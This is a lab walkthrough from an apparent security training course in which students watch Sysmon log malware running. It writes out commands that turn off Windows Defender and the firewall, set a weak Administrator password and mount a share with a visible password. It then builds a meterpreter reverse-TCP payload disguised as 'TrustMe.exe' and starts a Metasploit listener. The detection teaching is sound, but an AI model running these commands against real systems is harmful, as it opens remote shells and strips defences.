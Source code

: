 # Sysmon

Let’s disable **Defender**. Simply run the following from an **Administrator PowerShell** prompt:

![](attachments/OpeningPowershell.png)

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

This will disable **Defender** for this session.

If you get angry red errors, that is Ok, it means **Defender** is not running.

Let’s start up the **ADHD Linux system** and set up our **malware** and **C2 listener**: 

Let's get started by opening a **Kali** terminal

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Once the terminal opens, please run the following command:

<pre>ifconfig</pre>

![](attachments/ifconfig.png)

Please note the IP address of **your** Ethernet adapter.  

**Your IP Address and adapter name may be different.**

Next, lets ensure the firewall is disabled. In a Windows Command Prompt.

<pre> netsh advfirewall set allprofiles state off</pre>

Next, set a password for the Administrator account that you can remember

<pre>net user Administrator password1234</pre>

Please note, that is a very bad password.  Come up with something better. But, please remember it.

Within the Command Prompt, please run the following command:

<pre>ipconfig</pre>

Please note your Windows IP address.

We need to run the following commands in order to mount our remote system to the correct directory:

<pre>sudo su -</pre>

<pre>mount -t cifs //10.10.1.209/c$ /mnt/windows-share -o username=Administrator,password=T@GEq5%r2XJh</pre>

**REMEMBER - YOUR IP ADDRESS WILL LIKELY BE DIFFERENT.**

Run the following commands to start a simple backdoor and backdoor listener: 
 
<pre>sudo su -</pre>

<pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[YOUR LINUX IP] lport=4444 -f exe -o /mnt/windows-share/TrustMe.exe</pre>

Let's start the **Metasploit** Handler.  Open a new **Kali** terminal by clicking the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Let's become root.

<pre>sudo su -</pre>

Now let's start the **Metasploit** Handler

<pre>msfconsole -q</pre>

We are going to run the following commands to correctly set the parameters:

<pre>use exploit/multi/handler</pre>

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

<pre>set LHOST 10.10.1.117</pre>

Remember, **your IP will be different!**

<pre>exploit</pre>

It should look like this:

![](attachments/msfconsole.png)

We will need to open a **"cmd.exe"** terminal as **Administrator**.

![](attachments/OpeningWindowsCommandPrompt.png)

<pre>cd \IntroLabs</pre>

<pre>Sysmon64.exe -accepteula -i sysmonconfig-export.xml</pre>

It should look like this:

![](attachments/sysmonexe.png)

let's run the following commands to run the **"TrustMe.exe"** file.

<pre>cd \</pre>
 
Then run it with the following:

 <pre>TrustMe.exe</pre>

Back at your Kali terminal, you should have a metasploit session!

![](attachments/meterpretersession.png)

Now, we need to view the Sysmon events for this malware:

Open **"Event Viewer"** by pressing the Windows key and searching for it.

![](attachments/eventviewer.png)

You will select Event Viewer > Applications and Services Logs > Microsoft > Windows > Sysmon > Operational

![](attachments/eventviewernav1.png)

You'll have to scroll down a bit until you find the **Sysmon** folder.  

![](attachments/eventviwernav2.png)

Start at the top and work down through the logs, you should see your **malware** executing.  Please note your paths may be different.

![](attachments/logs.png)

![](attachments/processcreateview.png)

***

[Back to Navigation Menu](/IntroClassFiles/navigation.md)
